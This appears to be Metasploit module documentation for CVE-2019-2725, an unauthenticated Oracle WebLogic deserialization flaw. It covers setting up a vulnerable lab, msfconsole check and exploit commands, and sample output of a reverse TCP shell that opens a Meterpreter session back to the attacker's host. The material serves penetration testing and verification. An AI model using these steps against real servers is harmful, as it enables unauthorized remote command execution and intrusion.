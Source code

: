 ## Vulnerable Application

CVE-2019-2725 exploits an XML deserialization vulnerability in Oracle WebLogic via the AsyncResponseService component.
The exploit provides an unauthenticated attacker with remote arbitrary command execution.

Oracle Weblogic runs as a Java-based service in Windows, Linux, and Unix environments.
It is downloadable from Oracle once registered for an account.
For testing vulnerable environments, we used Weblogic 10.3.6 for Ubuntu (`wls1036_linux32.bin`),
Weblogic 10.3.6 for Windows (`wls1036_dev.zip`).
For testing a non-vulnerable environment, we used Weblogic 12.2.1.2 (`fmw_12.2.1.2.0_wls.jar`)
in combination with a JDK (`jdk-8u211-windows-x64.exe`).

## Verification Steps

### Install the application

  1. Install the application using the binaries above, with both a WebLogic server and an admin server.
  2. When prompted, name the project `base_domain`.
  3. When prompted, use a development environment instead of a production environment.
  4. When prompted, keep the default port of TCP/7001.
  5. When prompted, provide a username and password, and make a note of them.
  6. Upon completion of the installer, find and execute the admin server.
  On Windows:
  `C:\Oracle\Middleware\Oracle_Home\user_projects\domains\base_domain\startWebLogic.cmd`.
  On Linux: `~/Oracle/Middleware/user_projects/base_domain/bin/startWebLogic.sh`
  7. You may be prompted for the username and password you generated during the install process.
  8. Wait for the output: `<Server state changed to RUNNING.>`

### Checking for the vulnerability

  1. Start msfconsole
  2. `use exploit/multi/misc/weblogic_deserialize_asyncresponseservice`
  3. Configure RHOSTS to the target address, and set RPORT if the default port is not being used.
  4. Run the `check` method to confirm exploitability.
  5. Look for the following output:

```
msf exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > check
[+] 172.16.135.128:8088 - The target is vulnerable.
```

### Exploiting the vulnerability

  1. Follow the steps in the previous "checking" section.
  2. Set the operating system of the target (eg. `set TARGET Windows`)
  3. Configure the payload and payload parameters.
  4. `run`

## Options

### TARGETURI
Set this to the AsyncResponseService uri, normally it should be `/_async/asyncresponseservice`.

## Scenarios

```
msf exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > exploit

[*] Started reverse TCP handler on 172.16.135.1:4444 
[*] Generating payload...
[*] Sending payload...
[*] Sending stage (179779 bytes) to 172.16.135.128
[*] Meterpreter session 1 opened (172.16.135.1:4444 -> 172.16.135.128:49266) at 2019-05-22 14:16:03 -0500

meterpreter >
```
